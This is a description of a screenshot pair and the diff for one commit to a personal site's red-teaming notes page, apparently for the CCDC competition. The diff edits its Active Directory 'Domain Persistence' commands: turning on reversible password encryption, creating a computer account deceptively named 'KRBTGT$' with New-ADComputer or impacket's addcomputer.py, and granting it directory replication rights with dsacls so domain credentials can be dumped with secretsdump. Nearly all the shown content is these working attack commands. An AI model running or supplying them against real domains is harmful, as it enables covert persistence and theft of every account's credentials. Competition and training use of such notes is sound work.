

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/RedTeamingCCDC.md, in a window 1280 px wide and 1400 px high, scrolled down 3527 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
fixed reversible encryption and added AD computer powershell 1liner

```diff
--- a/markdown/RedTeamingCCDC.md
+++ b/markdown/RedTeamingCCDC.md
@@ -141,7 +141,7 @@
 ## Domain Persistence
 
 **Plaintext Password**
-- Turn on reversible encryption: `Set-ADDefaultDomainPasswordPolicy -Identity {domain} -ReversibleEncryptionEnabled $false`
+- Turn on reversible encryption: `Set-ADDefaultDomainPasswordPolicy -Identity {domain} -ReversibleEncryptionEnabled $true`
 
 **Skeleton Key**
 - Implants into LSASS and creates master password working for any AD account
@@ -173,8 +173,9 @@
 
 **Adding a new Computer Account**
 - Might be overlooked during normal user password rotations
-- `addcomputer.py -computer-name 'KRBTGT$' -computer-pass '{new_password}' -dc-host "{dc_ip}" -domain-netbios '{domain}' '{domain}'/'{owned_user}':'{owner_user_pass}'`
-- Then on Windows, give it permissions over the domain (so we can secretsdump)
+- `New-ADComputer -Name {PC_NAME_NO_$} -AccountPassword (ConvertTo-SecureString '{new_pass}' -AsPlainText -Force) -Enabled $true`
+  - If on linux: `addcomputer.py -computer-name 'KRBTGT$' -computer-pass '{new_password}' -dc-host "{dc_ip}" -domain-netbios '{domain}' '{domain}'/'{owned_user}':'{owner_user_pass}'`
+- Then give it permissions over the domain (so we can secretsdump)
   - `dsacls 'DC={domain},DC={tld}' /I:T /G '{domain}\{machine_account}:CA;Replicating Directory Changes'`
   - `dsacls 'DC={domain},DC={tld}' /I:T /G '{domain}\{machine_account}:CA;Replicating Directory Changes All'`
 
```
